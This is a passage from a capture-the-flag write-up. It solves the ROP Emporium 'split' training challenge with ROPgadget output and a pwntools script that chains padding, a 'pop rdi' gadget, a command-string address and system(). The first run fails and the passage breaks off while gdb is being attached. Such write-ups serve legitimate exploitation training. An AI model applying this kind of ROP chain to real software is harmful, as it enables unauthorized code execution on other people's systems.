 ```
┌──(kali㉿kali)-[~/ctf/rop/split]
└─$ ROPgadget --binary split | grep rdi
0x0000000000400288 : loope 0x40025a ; sar dword ptr [rdi - 0x5133700c], 0x1d ; retf 0xe99e
0x00000000004007c3 : pop rdi ; ret
0x000000000040028a : sar dword ptr [rdi - 0x5133700c], 0x1d ; retf 0xe99e
```

we got both the system function address and our gadget now let's craft our ROP chain.

```python
from pwn import *

p = process("./split")

padding = b"X"*40
shell_str_addr = 0x601060
system_addr = 0x400560
pop_rdi = 0x4007c3

payload = padding + p64(pop_rdi) + p64(shell_str_addr) + p64(system_addr)

p.sendline(payload)
print(p.recvall().decode("utf-8"))
```

here we go...  

```
┌──(kali㉿kali)-[~/ctf/rop/split]
└─$ python write-up.py
[+] Starting local process './split': pid 3485
[+] Receiving all data: Done (87B)
[*] Stopped process './split' (pid 3485)
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
```

huh? what happened why don't we get our flag let's investigate some more by attaching gdb to the process.  

let's edit our script a bit.  
```python
from pwn import *

p = process("./split")
script = """
break *0x400560
"""

gdb.attach(p, gdbscript=script)

padding = b"X"*40
shell_str_addr = 0x601060
system_addr = 0x400560
pop_rdi = 0x4007c3

payload = padding + p64(pop_rdi) + p64(shell_str_addr) + p64(system_addr)

p.sendline(payload)
print(p.recvall().decode("utf-8"))
```
